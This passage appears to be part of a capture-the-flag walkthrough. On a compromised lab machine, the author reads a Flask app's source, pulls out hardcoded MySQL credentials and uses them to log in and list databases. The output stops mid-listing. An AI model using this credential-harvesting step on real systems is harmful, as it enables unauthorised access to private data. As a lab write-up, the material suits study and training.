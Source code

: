 ```bash
ls
app.py	static	templates
```
There is `app.py,` lets read it. At the start there is the thing we need:
```bash
www-data@iclean:/opt/app$ cat app
cat app.py
from flask import Flask, render_template, request, jsonify, make_response, session, redirect, url_for
from flask import render_template_string
import pymysql
import hashlib
import os
import random, string
import pyqrcode
from jinja2 import StrictUndefined
from io import BytesIO
import re, requests, base64

app = Flask(__name__)

app.config['SESSION_COOKIE_HTTPONLY'] = False

secret_key = ''.join(random.choice(string.ascii_lowercase) for i in range(64))
app.secret_key = secret_key
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'

```
This means that there is `Database`with password:`pxCsmnGLckUb`. I connected to it and got this:
```sql
www-data@iclean:/opt/app$ mysql -u iclean -p
mysql -u iclean -p
Enter password: pxCsmnGLckUb

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 785
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> ls
ls
    -> ;
;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'ls' at line 1
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| capiclean          |
| information_schema |
```